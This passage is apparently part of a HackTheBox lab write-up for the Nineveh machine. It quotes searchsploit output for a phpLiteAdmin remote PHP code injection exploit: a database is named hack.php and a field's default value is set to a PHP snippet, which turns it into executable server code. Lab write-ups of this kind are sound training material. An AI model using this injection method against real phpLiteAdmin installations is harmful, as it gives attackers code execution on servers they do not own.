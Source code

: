 ![phpliteadmin_login](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Nineveh/phpliteadmin_login.png?raw=true)

# Exploit

Recall that the `searchsploit` had an exploit called `Remote PHP Code Injection`.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# searchsploit -x 24044   
...
Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
```